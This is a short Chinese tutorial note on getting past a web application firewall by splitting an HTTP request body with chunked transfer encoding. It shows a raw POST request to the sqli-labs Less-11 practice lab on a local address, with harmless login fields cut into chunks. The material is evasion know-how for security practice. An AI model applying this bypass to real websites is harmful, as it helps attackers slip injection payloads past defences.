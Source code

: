 # waf绕过的思路：

正常传输的payload都是可以被waf的正则匹配到的，而进行分块传输之后的payload，waf的正则不会进行匹配，而又满足http的规则，所以就能绕过waf。  
![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230304135618.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230304135619.png)

#### 例如：

正常传输过程中是这样的。  
![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230304135620.png)那么分块传输之后，就变成了这样。

    
    
    POST /sqli-labs-master/Less-11/ HTTP/1.1  
    Host: 192.168.172.161  
    Content-Length: 128  
    Cache-Control: max-age=0  
    Upgrade-Insecure-Requests: 1  
    Origin: http://192.168.172.161  
    Content-Type: application/x-www-form-urlencoded  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
    Referer: http://192.168.172.161/sqli-labs-master/Less-11/  
    Accept-Encoding: gzip, deflate  
    Accept-Language: zh-CN,zh;q=0.9  
    Connection: close  
    Transfer-Encoding: chunked  
      
    4  
    unam  
    1  
    e  
    1  
    =  
    4  
    admi  
    1  
    n  
    1  
    &  
    4  
    pass  
    2  
    wd  
    1  
    =  
    4  
    admi  
    1  
    n  
    1  
    &  
    4  
    subm  
    2  
    it  
    1  
    =  
    4  
    Subm  
    2  
    it  